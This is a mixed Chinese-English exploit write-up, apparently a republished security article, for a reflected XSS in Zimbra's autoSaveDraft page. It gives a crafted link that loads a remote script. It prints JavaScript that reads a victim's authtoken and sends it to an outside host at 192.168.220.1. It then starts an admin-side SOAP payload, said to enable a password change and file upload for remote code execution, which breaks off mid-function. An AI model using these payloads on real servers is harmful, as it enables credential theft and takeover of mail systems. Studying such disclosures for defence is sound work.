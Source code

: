 是一个前台的XSS，由于限制了httponly，所以需要找其它的点来回显cookie进而得到攻击者认证凭证，这也是漏洞评级为high的原因  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibdUyJNn0P5iceKibuClwKJ0j6C5Hoova63TBuiaiaLnZSEMmvDEo4FKiaYPcyEHticDUGibTKejaAtdic3kDtAJziaicljvQ/640?wx_fmt=png "")  
  
Zimbra一般只开放在8443端口，利用如下  
  
Any logged-in user who clicks on this link will reveal their login credentials, which is authtoken  
  
Link：https://zimbra.test233.com:8443/h/autoSaveDraft?draftid=aaaaaaaaaaa%22%3E%3Cscript%20type=%22text/javascript%22%20src=%22http://192.168.220.1:7777/8443getauthtoken.js%22%3E%3C/script%3E%3Cbbbbbbbb  
  
**There are two loopholes involved**  
  
Here is the content of the malicious js code executed through the xss vulnerability：  
```
var xhr = new XMLHttpRequest();


xhr.open('get', '/public/authorize.jsp');
xhr.send();



xhr.onload = function() {
    const responseHtml = xhr.response;

    const parser = new DOMParser();
    const doc = parser.parseFromString(responseHtml, "text/html");
    const zauthtokenValue = doc.getElementsByName("zauthtoken")[0].value;

    console.log(zauthtokenValue);
    // alert(zauthtokenValue);



    var script = document.createElement('script');
    script.src = 'http://192.168.220.1:9999/?authtoken="'+zauthtokenValue+'.js';
    document.body.insertBefore(script, document.body.firstChild);


};



```  
  
Vulnerability verification screenshot  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibdUyJNn0P5iceKibuClwKJ0j6C5Hoova63TxATYjOEMNaBUDnwQq1K3QUqCGnEEdznb8vv8BXbPpXAeiablyhneVw/640?wx_fmt=png "")  
  
如果很幸运的我们可以访问到7071端口，那么当管理员点击而已连接时，可以通过js构造发包进行RCE，首先管理员点击后会自动更改密码，然后利用后台接口进行任意文件上传进行RCE，js构造如下：  
```
var xhr = new XMLHttpRequest();


xhr.open("POST", "/service/admin/soap/AuthRequest");
xhr.setRequestHeader("Content-Type", "application/soap+xml;charset=UTF-8");
xhr.send('<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope"><soap:Header><context xmlns="urn:zimbra"><userAgent xmlns="" name="ZimbraWebClient - FF111 (Win)"/><session xmlns="" id="360"/><authTokenControl xmlns="" voidOnExpired="1"/><format xmlns="" type="js"/></context></soap:Header><soap:Body><AuthRequest xmlns="urn:zimbraAdmin" refresh="1"><virtualHost xmlns="">localhost</virtualHost><csrfTokenSecured xmlns="">1</csrfTokenSecured></AuthRequest></soap:Body></soap:Envelope>');


xhr.onload = function() {
```